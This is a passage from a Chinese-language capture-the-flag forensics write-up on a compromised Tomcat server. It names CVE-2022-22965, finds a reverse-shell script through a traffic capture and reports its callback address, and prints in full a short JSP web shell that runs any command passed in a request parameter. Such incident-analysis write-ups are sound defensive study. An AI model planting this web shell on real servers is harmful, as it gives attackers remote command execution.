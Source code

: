 那么答案就显而易见的在 github 仓库里有介绍，那么答案就是：**CVE-2022-22965**

### server save\_2

> 题目内容：黑客反弹 shell 的 ip 和端口是什么，格式为：10.0.0.1:4444

继续通过流量包，我们看到最后一条记录看到执行了`bash bbbb.sh`：  
[![](assets/1702520939-1ac104868a3b986cc93aba9c900397b9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213160003-9ef7e2ba-998d-1.png)  
在 helloworld 目录下发现 bbbb.sh，内容如下，是个反弹 shell 的命令：  
[![](assets/1702520939-630ebdcce61b29a41181dbc31758d3ad.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213160024-aba823ee-998d-1.png)  
那么答案就是**192.168.43.128:2333**。

### server save\_3

> 题目内容：黑客的病毒名称是什么？格式为：filename

我们先从几个目录开始寻找，有如下几个目录需要注意：

-   /usr/local/tomcat # 运行服务的目录
-   /root # root 用户目录
-   /home # 普通用户目录

运行的服务目录知识看到了 shell.jsp 的内容，没有找到更有用的信息。

```plain
<%
java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
int a = -1;
byte[] b = new byte[2048];
while ((a = in.read(b)) != -1) {
    out.println(new String(b));
}
%>
```

root 用户下也没有什么有用的信息，但是可以看到/home 下存在一个 guest 用户，进入看到有个 main 文件。

[![](assets/1702520939-2d6abc4d824a98410017b115b57b5061.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213160056-beb4ff34-998d-1.png)  